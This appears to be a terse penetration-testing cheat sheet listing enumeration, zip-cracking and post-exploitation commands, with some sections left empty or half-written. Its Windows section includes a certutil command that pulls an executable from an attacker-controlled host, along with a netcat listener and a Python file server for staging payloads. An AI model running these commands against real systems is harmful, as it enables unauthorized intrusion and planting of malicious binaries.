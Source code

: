 ## Enumeration 
arp-scan -l

showmount -e <server ip>
mount -t nfs <server ip>:<remote path shown from showmount> <to local mount point>

nmap -sV -A -T4 -p- 
nmap --sC ? 

gobuster ######

## Cracking
Zip files: fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt <target.zip>

## Linux Post Exploitation
history
pwd
sudo -l
crontab -l

## Windows Post Exploitation
cd
whoami
ipconfig
dir
sc stop <application>
sc start <application>
sc query <application>
certutil.exe -urlcache -f http://<attackerip>:8000/<application.exe> <applicationname.exe>

## Listener
nc -nlvp

## Directory hosting
python -m SimpleHTTPServer

## Linux wget and curl commands

## Windows Certutil commands

